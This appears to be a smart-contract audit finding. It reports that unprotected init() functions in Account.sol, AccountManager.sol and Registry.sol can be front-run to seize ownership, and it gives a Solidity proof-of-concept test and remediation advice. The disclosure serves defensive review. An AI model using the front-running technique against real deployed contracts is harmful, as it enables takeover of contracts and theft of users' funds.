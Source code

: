 minera
# Frontrunning in the Contract's Initialization Function Can Lead to an Array of Vulnerabilities

## Summary
There exists an issue in the `Account.sol`, `AccountManager.sol` and the `Registry.sol` contracts where front running allows the attacker to cause adverse effects on the contract should they succeed. 

## Vulnerability Analysis
Given the `init()` function in the `Registry.sol` contract:
```solidity
    /**
        @notice Contract Initialization function
        @dev Can only be invoked once
    */
    function init() external {
        if (initialized) revert Errors.ContractAlreadyInitialized();
        initialized = true;
        initOwnable(msg.sender);
    }
```
In the above snippet of code, the `init()` function is used to determine ownership of the contract in question (with varying state changes depending on the contract). An attacker can monitor the mempool for a contract deployment which takes a certain amount of time depending on the congestion of transactions waiting to be processed. Should an adversary catch hold of the deployment transaction, they are free to call the `init()` function to gain ownership of the contract.

I have awarded this as a "Medium" in severity because certain conditions must be met in order to execute a successful attack. The attacker should actively be monitoring the mempool for opportunities in order to exploit this attack vector.

## Impact
The following contracts are affected with the described impact:
- `Account.sol`:`59`
	- Attackers can initialize a malicious `accountManager` to manipulate funds or brick the contract.
- `AccountManager.sol`:`68`
	- `initPausable()` is called here which may be able to brick the contract if `pause()` was called by an unwanted address.
- `Registry.sol`:`61`
	- Complete ownership over the registry and user accounts as the administrator. 

## Proof of Concept
#### Exploit scenario in the case of `Registry.sol`
- Alice deploys the `Registry.sol` contract to the blockchain.
- Eve notices the contract has successfully been deployed and sees a front running opportunity by calling the `init()` function to become the admin user. 
- Eve is free to use whichever functions in the deployed contract which require an administrative privileges.  

I have included a proof of concept test outlining the above scenario as followed:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.15;

import {Errors} from "../../utils/Errors.sol";
import {TestBase} from "../utils/TestBase.sol";
import {IRegistry} from "../../interface/core/IRegistry.sol";
import {Registry} from "../../core/Registry.sol";

// Located in protocol/src/test/MyTests/TestFrontRun.sol

contract TestFrontRun is TestBase {

    address alice;
    address eve;

    function setUp() public {

        alice = cheats.addr(1);
        eve = cheats.addr(2);

    }

    function testProveFrontRunning() public {
        
        cheats.startPrank(alice);
        // Alice, the rightful owner deploys the registry contract
        Registry myReg = new Registry();
        cheats.stopPrank();

        assertEq(address(myReg.admin()), address(0));

        // Eve, a malicious user is monitoring the mempool and can frontrun alice to initialize the contract
        cheats.startPrank(eve);
        myReg.init();
        cheats.stopPrank();

        assertEq(address(myReg.admin()), address(eve));

    }

}
```

## Tool used
Manual Review

## Recommendation
Consider the following remediations to prevent a frontrunning attack on the deployed contracts:
- Implement access controls in the form of a modifer so only the deployer can call the initialization functions. 
- Consider moving the initialization operations to a contract constructor for the purpose of executing initialization code on deployment. 
